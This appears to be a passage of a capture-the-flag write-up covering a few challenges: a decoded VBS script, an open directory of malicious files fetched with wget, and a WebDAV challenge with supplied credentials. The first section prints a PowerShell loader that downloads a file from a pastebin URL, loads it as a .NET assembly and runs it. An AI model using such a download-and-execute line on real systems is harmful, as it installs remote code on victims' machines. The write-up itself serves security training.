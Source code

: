 The code that this statement executes is:
```
>cscript decoded.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

PowerShell $f='C:\Users\Public\Documents\July.htm';if (!(Test-Path $f)){Invoke-WebRequest 'https://pastebin.com/raw/SiYGwwcz' -outfile $f  };[System.Reflection.Assembly]::loadfile($f);[WorkArea.Work]::Exe()
```

What's in this pastebin?

```
$ curl -i https://pastebin.com/raw/SiYGwwcz
HTTP/2 200 
date: Fri, 27 Oct 2023 04:12:25 GMT
content-type: text/plain; charset=utf-8
x-frame-options: DENY
x-content-type-options: nosniff
x-xss-protection: 1;mode=block
cache-control: public, max-age=1801
cf-cache-status: MISS
last-modified: Fri, 27 Oct 2023 04:12:25 GMT
server: cloudflare
cf-ray: 81c819c19a5d3aac-DFW

<!-- flag{ed81d24958127a2adccfb343012cebff} -->
```

## OpenDir
This challenge opens an instance that serves a web index with a bunch of malicious files, so I pulled them all down:

```
$ wget --user opendir --password=opendir http://chal.ctf.games:32136/ -r --no-parent
Downloaded: 196 files, 18M in 5.0s (3.59 MB/s)
```

Then I grepped for the flag because there's no way I'm going through all of these manually:

```
$ grep -r ".*flag.*" .
grep: ./sir/LPE/InstallerFileTakeOver.exe: binary file matches
./sir/64_bit_new/oui.txt:flag{9eb4ebf423b4e5b2a88aa92b0578cbd9}
```

## Operation Eradication
This challenge launches a web instance and also has a file containing this:

```
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-
```
